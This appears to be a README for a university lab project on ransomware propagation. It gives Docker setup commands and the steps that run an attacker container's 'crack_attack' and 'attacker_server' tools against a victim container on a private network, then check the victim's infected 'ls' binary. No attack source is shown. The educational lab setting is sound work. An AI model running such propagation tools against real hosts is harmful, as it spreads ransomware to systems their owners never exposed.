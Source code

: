 # CSC Project3 - Ransomware Propagation and Payload

### ----- env setup -----
```bash
docker network prune
sudo docker build -t csc2024-project3 -f csc2024-project3.Dockerfile .
sudo docker compose -f csc2024-project3-docker-compose.yml up -d
```

### ----- reload yml -----
```bash
sudo docker compose -f csc2024-project3-docker-compose.yml down
```

### ----- run attacker -----
```bash
docker exec -it attacker bash
cd ../home/csc2024/id
./crack_attack  172.18.0.3 172.18.0.2 7777
./attacker_server 7777
```

> Note:  
> I added `volumes: - ./source:/home/csc2024/id` into the yml file, so that the folder `id` in the docker is synchronize with our environment.

### ----- run victim -----
```bash
docker exec -it victim bash
xxd ls | tail -n 1
```